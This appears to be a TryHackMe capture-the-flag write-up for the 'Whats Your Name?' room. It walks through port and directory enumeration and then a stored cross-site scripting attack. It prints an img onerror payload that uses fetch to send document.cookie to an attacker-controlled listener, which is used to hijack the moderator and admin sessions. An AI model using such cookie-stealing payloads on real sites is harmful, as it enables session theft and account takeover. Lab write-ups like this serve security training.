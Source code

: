 ## THM CTF - Whats Your Name?

Flags:

> What is the flag value after accessing the moderator account?

> What is the flag value after accessing the admin panel?

---

We can start changing local DNS to easily handle all the process.
```
sudo nano /etc/hosts
```
Add the record:
```
xxx.xxx.xxx.xxx	   worldwap.thm
```
***It’s important to note that if we’re unable to navigate the site correctly, we can always use the IP address as a backup.*** 

Now we can proceed with an ```Nmap``` scan.
```
sudo nmap -sS -T4 worldwap.thm -p-
```
We discovered three open ports, and we can list the services they provide.
```
sudo nmap -sS -T4 worldwap.thm -p22,80,8081 -sV
```
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nothing interesting for now.

We can visit both ```HTTP``` ports with ```Firefox```.

On ```port 80``` we can find a normal site ready to be enumerated, on ```port 8081``` the server respond with a blank page.

<details><summary><h4>Some not so useful site enumeration (click for more)<h4></summary>

We decided to start from ```port 80```.

We can register for the service using some fake data, but after completing the process and attempting to log in, the server responds with an error message.
```
User not verified
```
We attempted to add the following page to the hosts file:
```
login.worldwap.thm
```
However, this attempt was unsuccessful, as the page sent by the server was empty because it's redirecting to:
```
worldwap.thm:8081
```
We try to investigate the source of the message, finding a ```js``` file:
```
http://worldwap.thm/public/js/login.js
```
Analysing it, we discover an ```API```:
```
http://worldwap.thm/api/login.php
```
which respond to us with:
```
"Invalid Request Method"
```
We found another ```API``` analysing the registration process:
```
http://worldwap.thm/api/register.php
```
It responds:
```
"Registration disabled at the moment."
```

</details>

Just to be more precise, we proceed with a Gobuster directory analysis.

<details><summary><h4>Port 80 (click for more)</h4></summary>
  
```
gobuster dir -u http://worldwap.thm -w /usr/share/wordlists/dirb/common.txt -x html,js,txt,php,db,json,log
```

Findings:
```
/api                  (Status: 301) [Size: 310] [--> http://worldwap.thm/api/]
/index.php            (Status: 302) [Size: 0] [--> /public/html/]
/index.php            (Status: 302) [Size: 0] [--> /public/html/]
/javascript           (Status: 301) [Size: 317] [--> http://worldwap.thm/javascript/]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://worldwap.thm/phpmyadmin/]
/public               (Status: 301) [Size: 313] [--> http://worldwap.thm/public/]
```

* ```logs.txt``` is empty, but in the page code we can see something interesting that might be of use:
```
<link rel="stylesheet" href="resource://content-accessible/plaintext.css">
```
We can suppose that this site supports ```null Origin CORS``` configuration.

</details>

<details><summary><h4>Port 8081 (click for more)</h4></summary>
  
```
gobuster dir -u http://worldwap.thm:8081 -w /usr/share/wordlists/dirb/common.txt -x html,js,txt,php,db,json,log
```
Findings:
```
/assets               (Status: 301) [Size: 320] [--> http://worldwap.thm:8081/assets/]
/block.php            (Status: 200) [Size: 15]
/change_password.php  (Status: 302) [Size: 4] [--> login.php]
/chat.php             (Status: 302) [Size: 0] [--> login.php]
/clear.php            (Status: 200) [Size: 4]
/db.php               (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 70]
/index.php            (Status: 200) [Size: 70]
/javascript           (Status: 301) [Size: 324] [--> http://worldwap.thm:8081/javascript/]
/login.php            (Status: 200) [Size: 3108]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 324] [--> http://worldwap.thm:8081/phpmyadmin/]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/setup.php            (Status: 200) [Size: 149]
```
```
* block.php - the message "Reset Completed" appears.
* login.php and change_password.php are interesting.
* logs.txt same as port 80
* setup.php seems to activate a DB creation/reset procedure.
```

</details>

---

Let's go back to ```Firefox``` trying to better understand how the registration works.

As usual we miss an important and obvious detail in the registration page.
```
You can now pre-register! Your details will be reviewed by the site moderator.
```
We could attempt a ```stored Cross-Site Scripting (XSS)``` attack to obtain moderator ```cookies```.

We can use a payload like this one.
```html
<img src=1 onerror="fetch('http://ATTACKER_IP:1234?s='+encodeURIComponent(document.cookie));">
```
and a listener on our machine.
```
python3 -m http.server 1234
```
However the payload is too long for the username, but not for email and name fields.

We can test it in the console receiving some feedback about the ```Cross-Origin Request``` control, maybe it's not working like this.
Anyhow we received our ```cookie``` on the attack machine listening... so it's a win.

After some browsing, our python server received a new ```cookie```... inputting it in the browser and navigating to:
```
worldwap.thm:8081/login.php
```
We're in! And the ```first flag``` is ours.

Now we need to access the ```admin panel```.

In the Moderator dashboard there is nothing to play with except for the ```Go To Chat``` button.
Navitating to the chat we discover that ```block.php``` and ```setup.php``` are used to restart and reset the chat with...
Admin!

Maybe we might be able to obtain session ```cookie``` from the admin too.
Let's try with the same script we used before.
```html
<img src=1 onerror="fetch('http://10.11.123.90:1234?s='+encodeURIComponent(document.cookie));">
```
And it works! We obtained the admin ```cookie``` and now we are able to enter as an admin into the dashboard retrieving the ```second flag```.


### Lessons learned:
* Not only are the technical aspects important, but we also need to read the entire text to fully comprehend the fault logic behind the target machine’s security.
* Always check every script twice, especially when we are attempting a blind attack.
* Add to ```Gobuster``` search the ```Python``` extension.
